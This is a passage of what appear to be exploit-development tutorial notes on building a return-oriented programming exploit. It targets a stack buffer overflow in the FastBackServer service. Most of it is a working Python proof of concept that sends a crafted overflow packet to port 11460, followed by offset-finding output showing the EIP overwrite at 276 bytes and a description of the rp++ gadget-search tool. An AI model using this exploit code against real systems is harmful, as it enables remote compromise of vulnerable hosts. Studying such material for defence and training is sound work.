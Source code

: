 # Our first ROP exploit
Let's use the FastBackServer exploit proof of concept:
```python
import socket  
import sys  
from struct import pack  
# psAgentCommand  
buf = bytearray([0x41]*0xC)  
buf += pack("<i", 0x534) # opcode  
buf += pack("<i", 0x0) # 1st memcpy: offset  
buf += pack("<i", 0x500) # 1st memcpy: size field  
buf += pack("<i", 0x0) # 2nd memcpy: offset  
buf += pack("<i", 0x100) # 2nd memcpy: size field  
buf += pack("<i", 0x0) # 3rd memcpy: offset  
buf += pack("<i", 0x100) # 3rd memcpy: size field  
buf += bytearray([0x41]*0x8)  
# psCommandBuffer  
formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" %  
(b"A"*0x200,0,0,0,0)  
buf += formatString  
# Checksum  
buf = pack(">i", len(buf)-4) + buf  
  
def main():  
    server =  "192.168.122.113" 
    port = 11460  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    s.connect((server, port))  
    s.send(buf)  
    s.close()  
    print("[+] Packet sent")  
    sys.exit(0)  
  
  
if __name__ == "__main__":  
    main()
```

Let's find the specific offset to crash the buffer:
```bash                              
msf-pattern_offset -l 512 -q 41326a41 
[*] Exact match at offset 276
```
At 276 bytes we start overriding EIP.

If we dump the value that ESP has (stack pointer) we find that it is at offset 280.
**This means that ESP points right after the return address**. It is good because we added a offset to override the EIP, and, the following bytes will be pointed by ESP.

### RP++ for ROP gadget search
This tool will increase our speed compared to the PYKD tool.
The rp++ tool is a series of open source C++ applications written in C+ and provide support for both 32-bit and 64-bit CPUs.
The various compiled executables can run on Windows, Linux, MacOS and can locate gadgets in PE Files, ELF files and Mach-O files.
